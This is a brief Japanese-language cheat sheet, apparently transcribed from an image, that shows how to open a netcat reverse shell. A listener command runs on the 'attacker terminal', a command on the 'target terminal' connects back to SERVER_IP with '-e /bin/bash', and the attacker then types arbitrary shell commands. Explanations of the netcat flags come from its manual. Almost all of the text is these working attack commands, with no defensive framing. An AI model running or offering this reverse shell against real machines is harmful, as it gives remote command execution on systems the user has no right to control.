 攻撃側端末

```sh
$ nc -nlvp 5555
```

- n (numeric only)
- l (listen)
- v (verbose)
- p 5555 (port)

ターゲット端末

```sh
$ nc SERVER_IP 5555 -e /bin/bash
```

- e filename specify filename to exec after connect (use with caution)
- c string specify shell commands to exec after connect (use with
  caution). The string is passed to /bin/sh -c for execution.

攻撃側端末

```sh
any shell commands
```
